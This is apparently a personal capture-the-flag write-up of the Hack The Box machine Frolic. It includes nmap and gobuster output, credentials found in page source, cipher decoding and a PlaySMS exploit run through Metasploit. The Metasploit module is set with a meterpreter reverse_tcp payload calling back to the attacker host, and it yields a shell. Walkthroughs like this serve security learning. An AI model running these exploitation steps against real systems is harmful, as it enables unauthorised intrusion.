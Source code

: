 #nmapscan 
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-01 11:24 EDT
Nmap scan report for 10.10.10.111
Host is up (0.100s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
|_  256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h49m59s, deviation: 3h10m30s, median: 0s
|_nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: frolic
|   NetBIOS computer name: FROLIC\x00
|   Domain name: \x00
|   FQDN: frolic
|_  System time: 2021-08-01T20:54:52+05:30
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-01T15:24:52
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.69 seconds
```
#enumeration 
opening port 9999 we got a link
Thank you for using nginx. http://forlic.htb:1880 
and interestingly it was an open port where i got red node but got nothing useful exploits on it
now ran gobuster scan for both the ports 
```
gobuster dir -u http://10.10.10.111:9999/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.111:9999/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 11:45:40 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 178]
/.htaccess            (Status: 403) [Size: 178]
/.htpasswd            (Status: 403) [Size: 178]
/admin                (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/admin/]
/backup               (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/backup/]
/dev                  (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/dev/]   
/test                 (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/test/] 
```
/admin we have a login page that showd crack me
In this http://10.10.10.111:9999/backup/user.txt I got user admin
and in the password.txt got a password "password - imnothuman"
Now tried to log into the /admin and the red node as well both failed and the 
admin page showed 2 attempts only xD : (
I also tried to login to the /dev and /test both failed now clueless.
well suddnly i remenbered i had forgot to check the source code
and so i cheked it
and we got the password in the js file
```
var attempt = 3; // Variable to count number of attempts.
// Below function Executes on click of login button.
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "admin" && password == "superduperlooperpassword_lol"){
alert ("Login successfully");
window.location = "success.html"; // Redirecting to other page.
return false;
}
else{
attempt --;// Decrementing by one.
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}
```
ciphers xD
as expected from a crypto box
used deocde.fr identifier and got something as BULB! and Ook!
they decrypted and said ```/asdiSIAJJ0QWE9JAS```
another one mfc
which was a b64 text but it on decoding gave extension of a zip file 
so serched about it and got a few articles
https://www.igorkromin.net/index.php/2017/04/26/base64-encode-or-decode-on-the-command-line-without-installing-extra-tools-on-linux-windows-or-macos/
Converted it to zip and cracked the password with john and it was ```password```
then got a hex converted from hex then from b64 then from brain fuck to finaaly get 
```idkwhatispass```
but I couldn't understand what to do with this pass so I again started seraching through various directories.
```
gobuster dir -u http://10.10.10.111:9999/dev/ -w /usr/share/seclists/Discovery/Web-Content/big.txt                                                  130 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.111:9999/dev/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/03 00:47:49 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 178]
/.htaccess            (Status: 403) [Size: 178]
/backup               (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/dev/backup/]
/test                 (Status: 200) [Size: 5]
```
```
gobuster dir -u http://10.10.10.111:9999/backup/ -w /usr/share/seclists/Discovery/Web-Content/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.111:9999/backup/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/03 00:52:04 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 178]
/.htpasswd            (Status: 403) [Size: 178]
/loop                 (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/backup/loop/]
```
Now,visited this directories one by one
I the /dev/backup I got a directory``` /playsms```
opening the http://10.10.10.111:9999/playsms/index.php?app=main&inc=core_auth&route=login I got a login page
Now guessed the user and pass ```admin:idkwhatispass```and we are in.
```
searchsploit playsms            
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PlaySMS - 'import.php' (Authenticated) CSV File Upload Code Execution (Metasploit)                                          | php/remote/44598.rb
PlaySMS - index.php Unauthenticated Template Injection Code Execution (Metasploit)                                          | php/remote/48335.rb
PlaySms 0.7 - SQL Injection                                                                                                 | linux/remote/404.pl
PlaySms 0.8 - 'index.php' Cross-Site Scripting                                                                              | php/webapps/26871.txt
PlaySms 0.9.3 - Multiple Local/Remote File Inclusions                                                                       | php/webapps/7687.txt
PlaySms 0.9.5.2 - Remote File Inclusion                                                                                     | php/webapps/17792.txt
PlaySms 0.9.9.2 - Cross-Site Request Forgery                                                                                | php/webapps/30177.txt
PlaySMS 1.4 - '/sendfromfile.php' Remote Code Execution / Unrestricted File Upload                                          | php/webapps/42003.txt
PlaySMS 1.4 - 'import.php' Remote Code Execution                                                                            | php/webapps/42044.txt
PlaySMS 1.4 - 'sendfromfile.php?Filename' (Authenticated) 'Code Execution (Metasploit)                                      | php/remote/44599.rb
PlaySMS 1.4 - Remote Code Execution                                                                                         | php/webapps/42038.txt
PlaySMS 1.4.3 - Template Injection / Remote Code Execution                                                                  | php/webapps/48199.txt
```
Let's try the metasploit one first.
``` 2  exploit/multi/http/playsms_uploadcsv_exec      2017-05-21       excellent  Yes    PlaySMS import.php Authenticated CSV File Upload Code Execution
```
used this one at first
```

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   idkwhatispass    yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.111     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      9999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /playsms         yes       Base playsms directory path
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PlaySMS 1.4
```
set the options as shown and run
and we get the reverse shell of the user

